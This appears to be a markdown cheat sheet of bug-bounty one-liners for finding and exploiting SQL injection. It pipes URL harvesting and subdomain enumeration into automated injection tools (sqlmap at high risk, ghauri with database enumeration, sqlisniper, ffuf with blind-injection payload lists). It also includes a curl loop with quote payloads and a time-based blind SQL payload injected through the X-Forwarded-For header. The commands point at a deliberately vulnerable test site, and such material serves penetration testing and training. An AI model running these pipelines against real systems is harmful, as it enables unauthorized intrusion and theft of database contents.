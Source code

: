 # SQLis

### waymore, qsreplace, gf, ghauri

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore, qsreplace, gf, sqlmc

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlmc --url "$urls" -d 3 -o sqlmc.txt; done
```

### waymore, qsreplace, gf, nuclei

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | nuclei -t ~/nuclei-templates/dast/vulnerabilities/sqli/sqli-error-based.yaml -dast -o nuclei_sqli.txt
```


### waybackurls, gf, sqlmap

```
waybackurls | sort -u | gf sqli >> sqli; sqlmap -m sqli --batch --random-agent --level 3 --risk 3
```

### subfinder, httpx, waybackurls, gf, ghauri

```
subfinder -d vulnweb.com -recursive -all -silent | httpx | waybackurls | sort -u | gf sqli | sort -u | while read urls; do ghauri -u "$urls" --dbs --threads 2 --batch --level 2 | tee -a ghauri.sqli.txt; done
```

### waymore

```
waymore -i "testphp.vulnweb.com" -n -mode U | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Cybertix\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


# Blind SQLis

### waymore, qsreplace, gf, sqlisniper

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace -a "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | gf sqli | sort -u | while read urls; do sqlisniper -p -u "$urls" --payload /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/bsqli-sniper.txt --headers /opt/sqli/SqliSniper/headers.txt -o SQLi_blind_sniper.txt; done
```

### waybackurls

```
waybackurls -no-subs testphp.vulnweb.com | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt 
```

### waymore, qsreplace, gf, ffuf

```
waymore -i "testphp.vulnweb.com" -n -mode U | qsreplace "FUZZ" | gf sqli | sort -u | while read urls; do ffuf -u "$urls" -w /usr/share/wordlists/my-payloads/SQLi/Blind-SQLis/blind-sqli.txt -mt ">18000" -enc FUZZ:urlencode -timeout 150 –v -o SQLi_blind_ffuf.json; done
```


# Header based SQLis

```
subfinder -d vulnweb.com -recursive -all -silent | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13' | tee -a header_based_bsqli.txt
```




# Resources

https://github.com/Gerxnox/One-Liner-Collections

https://github.com/0xPugal/One-Liners

https://github.com/daffainfo/Oneliner-Bugbounty

https://github.com/thecybertix/One-Liner-Collections

https://github.com/dwisiswant0/awesome-oneliner-bugbounty
